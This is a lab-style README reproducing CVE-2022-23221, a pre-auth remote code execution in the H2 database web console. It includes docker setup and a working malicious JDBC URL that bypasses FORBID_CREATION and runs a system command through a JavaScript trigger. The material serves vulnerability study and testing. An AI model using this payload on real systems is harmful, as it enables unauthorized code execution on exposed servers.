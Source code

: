 # H2 Database Web Console Pre-Auth JDBC Attack RCE (CVE-2022-23221)

[中文版本(Chinese version)](README.zh-cn.md)

H2 database is a fast, open-source Java-based relational database management system (RDBMS) that can be used in both embedded (within a Java application) and client-server modes.

Springboot with h2 database comes with a web management page if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

In version 1.4.198, the H2 Web console restricted the creation of file databases or connecting to in-memory databases, thus fixing the [CVE-2018-10054](../CVE-2018-10054) vulnerability. However, attackers could bypass this restriction using JDBC attacks and some tricks in versions 1.4.198 up to (but not including) 2.1.210, and still execute arbitrary code.

References:

- <https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf>
- <https://www.leavesongs.com/PENETRATION/talk-about-h2database-rce.html>
- <https://github.com/h2database/h2database/releases/tag/version-2.1.210>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## Setup

Start a spring-boot with h2 database 2.0.206:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

Before reproducing this issue, we can confirm that the payload in [CVE-2018-10054](../CVE-2018-10054) is not exploitable because in-memory database is disabled after 1.4.197:

![](1.png)

Starting with version 1.4.197, the H2 console appends `;FORBID_CREATION=TRUE` to the JDBC URL by default, preventing the creation of file databases or connections to in-memory databases. However, attackers can bypass this restriction by adding a `\` at the end of the JDBC URL, which disrupts the URL syntax and causes FORBID_CREATION to be ignored.

Combining this trick with JDBC attacks, we can construct following malicious JDBC URL:

```
jdbc:h2:mem:test;MODE=MSSQLServer;FORBID_CREATION=FALSE;INIT=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;AUTHZPWD=\
```

When logging into the Web console, you can run arbitrary commands using the provided URL (pay attention to the line breaks):

![](2.png)
